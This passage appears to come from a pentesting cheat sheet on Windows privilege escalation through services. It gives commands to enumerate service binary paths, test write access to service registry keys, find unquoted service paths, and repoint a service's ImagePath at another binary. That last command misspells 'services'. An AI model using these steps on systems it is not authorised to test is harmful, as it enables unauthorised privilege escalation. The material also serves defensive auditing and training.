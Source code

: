 You can also use **sc** and **icacls**:

```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

### Services registry permissions

You should check if you can modify any service registry.  
You can **check** your **permissions** over a service **registry** doing:

```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### Unquoted Service Paths

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

For example, for the path _C:\Program Files\Some Folder\Service.exe_ Windows will try to execute:

```text
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths \(minus built-in Windows services\)

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)
```

